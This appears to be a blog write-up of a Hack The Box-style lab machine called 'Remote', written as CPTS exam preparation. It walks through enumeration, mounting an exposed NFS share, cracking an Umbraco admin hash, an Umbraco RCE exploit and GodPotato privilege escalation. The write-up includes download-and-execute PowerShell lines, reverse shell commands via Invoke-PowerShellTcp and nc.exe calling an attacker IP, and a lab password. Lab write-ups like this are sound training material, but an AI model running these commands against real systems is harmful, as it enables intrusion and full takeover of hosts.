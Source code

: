 ```yaml
---
layout: post
title: "Remote"
date: 2025-04-20 
categories: cpts preparation
---
```

# Attack Path

First enumerate the open ports and scan it with nmap

```bash
rustscan -a 10.129.230.172

21/tcp    open  ftp          syn-ack
80/tcp    open  http         syn-ack
111/tcp   open  rpcbind      syn-ack
135/tcp   open  msrpc        syn-ack
139/tcp   open  netbios-ssn  syn-ack
445/tcp   open  microsoft-ds syn-ack
2049/tcp  open  nfs          syn-ack
5985/tcp  open  wsman        syn-ack
47001/tcp open  winrm        syn-ack
49664/tcp open  unknown      syn-ack
49665/tcp open  unknown      syn-ack
49666/tcp open  unknown      syn-ack
49677/tcp open  unknown      syn-ack
49678/tcp open  unknown      syn-ack
49679/tcp open  unknown      syn-ack
49680/tcp open  unknown      syn-ack

sudo nmap -sC -sV -p21,80,111,135,445,2049,5985,47001,49664,49665,49666,49677,49678,49679,49680 -oA nmap/remote 10.129.230.172

notable;

21: FTP allows anon login
80: Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
445: SMB
2049: NFS
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

```

Let’s visit the web first. Found a page in contacts that has a login form. When trying to login:

![image.png]({{ site.baseurl }}/assets/remote/image.png)

Let’s try sql inject.

```bash
username: 'OR 1=1-- -
```

Does not work. Let’s see what’s in the ftp and smb shares

```bash
ftp 10.129.230.172 21
#emtpy

smbclient -N -L //10.129.230.172
#no null session
```

Let’s enumerate for subdirectories

```bash
gobuster dir -u http://10.129.230.172/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt

/contact              (Status: 200) [Size: 7880]
/install              (Status: 302) [Size: 126] [--> /umbraco/]
/blog                 (Status: 200) [Size: 5001]
/home                 (Status: 200) [Size: 6703]
/products             (Status: 200) [Size: 5338]
/product              (Status: 500) [Size: 3420]
/intranet             (Status: 200) [Size: 3313]
/Install              (Status: 302) [Size: 126] [--> /umbraco/]
/people               (Status: 200) [Size: 6739]
/Home                 (Status: 200) [Size: 6703]
/about-us             (Status: 200) [Size: 5451]
/umbraco              (Status: 200) [Size: 4040]
/Products             (Status: 200) [Size: 5338]
/Blog                 (Status: 200) [Size: 5011]
/master               (Status: 500) [Size: 3420]
/Product              (Status: 500) [Size: 3420]
/Contact              (Status: 200) [Size: 7880]
/INSTALL              (Status: 302) [Size: 126] [--> /umbraco/]
/person               (Status: 200) [Size: 2741]
/Master               (Status: 500) [Size: 3420]
/Intranet             (Status: 200) [Size: 3313]
/People               (Status: 200) [Size: 6739]
/Person               (Status: 200) [Size: 2741]
/‎                    (Status: 200) [Size: 6693]
/HOME                 (Status: 200) [Size: 6703]
/BLOG                 (Status: 200) [Size: 5011]
/About-Us             (Status: 200) [Size: 5451]
/1111                 (Status: 200) [Size: 4206]
/CONTACT              (Status: 200) [Size: 7890]
/INTRANET             (Status: 200) [Size: 3323]
/PRODUCTS             (Status: 200) [Size: 5338]
/PRODUCT              (Status: 500) [Size: 3420]
Progress: 23944 / 30001 (79.81%)[ERROR] parse "http://10.129.230.172/error\x1f_log": net/url: invalid control character in URL
/1117                 (Status: 200) [Size: 2750]
/1118                 (Status: 200) [Size: 2752]
/1116                 (Status: 200) [Size: 6739]
/1148                 (Status: 200) [Size: 3313]
P

gobuster dir -u http://10.129.230.172 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
```

Playing around the site we find /blog page and the page parameter might be vulnerable to file inclusion. Let’s test it out with ffuf

```bash
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://10.129.230.172/blog/?page=FUZZ' -fw 1249

```

Nothing here so far. Let’s see what’s in the NFS share

```bash
showmount -e 10.129.230.172

result:
Export list for 10.129.230.172:
/site_backups (everyone)

#This means we can mount it

mkdir /mnt/remote
sudo mount -t nfs 10.129.230.172:/site_backups /mnt/remote
```

Found username in a sdf (database) file in App_Data

```bash
strings Umbraco.sdf | grep -i password

admin@htb.local

strings Umbraco.sdf | grep -i "admin@htb.local"

We find SHA1 hash
admin@htb.local
b8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}
```

We can test if the hash can be cracked online e.g. crackstation and it’s a common password. We now have the credential of admin. Now we can go back to the web and login. When logged on, we can click on the question mark and it will give us the version of Umbraco (Umbraco version 7.12.4).

Now we can do search for the exploit and try and get a reverse shell. First we verified that umbraco has a RCE vulnerability so we need a windows reverse shell; Invoke-PowerShellTcp.ps1. First copy it to your attack dir and rename it to something simple like rev.ps1 and add the following to the bottom

```bash
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.118 -Port 9001
```

Now search for the exploit and save it to the attacking dir and change the following:

```bash
searchsploit umbraco
searchsploit -m 46153.py

Then change the following in the exploit file:
login = "admin@htb.local;
password="baconandcheese";
host = "http://10.129.230.172";
proc.StartInfo.FileName = "poweshell.exe";
string cmd = "IEX (IWR http://10.10.14.118:1234/rev.ps1 -UseBasicParsing)"

IEX(New-Object Net.Webclient).downloadString("http://10.10.14.118:1234/rev.ps1
```

Now start a python server on host and a listening port then execute the script

```bash
python3 -m http.server 1234

ON ANOTHER TAB:
nc -lnvp 9001
```

And now we have a reverse shell:

```bash
whoami
iis apppool\defaultapppool

PS C:\windows\system32\inetsrv> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
PS C:\windows\system32\inetsrv> 

```

SeImpersonatePrivilege is enabled so let’s search up how to exploit that and we find https://usersince99.medium.com/windows-privilege-escalation-token-impersonation-seimpersonateprivilege-364b61017070

Now we download GodPotato from https://github.com/BeichenDream/GodPotato/releases, just download this version [GodPotato-NET2.exe](https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET2.exe)
    

```bash
iwr http://10.10.14.118:1234/GodPotato-NET2.exe -OutFile godpotato.exe

#also trasnfer nc.exe

iwr http://10.10.14.118:1234/nc.exe -OutFile nc.exe

#now start a listening port on attack host
rlwrap nc -lnvp 4040

#Nowe we exploit

.\godpotato.exe -cmd ".\nc.exe -e cmd.exe 10.10.14.118 4040"
```

Now we have nt/authority shell

- mount nfs share
- strings to find password in db
- crackstation
- Invoke-PowerShellTcp.ps1 reverse shell
- god potato

We also check the Windows architecture:

```bash
wmic os get osarchitecture

result:
64-bit    
```

Let’s use winPEAS to enumerate for potential vulnerabilities. First cp winPEASx64.exe to our attack dir and retrieve the executable from our python server from Windows

```bash
iwr http://10.10.14.118:1234/winPEASx64.exe -OutFile winpeas.exe

.\winpeas.exe

result:
**? Check if you can modify any service https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services
    LOOKS LIKE YOU CAN MODIFY OR START/STOP SOME SERVICE/s:                                                                            RmSvc: GenericExecute (Start/Stop)                                                                                             
    UsoSvc: AllAccess, Start**
```
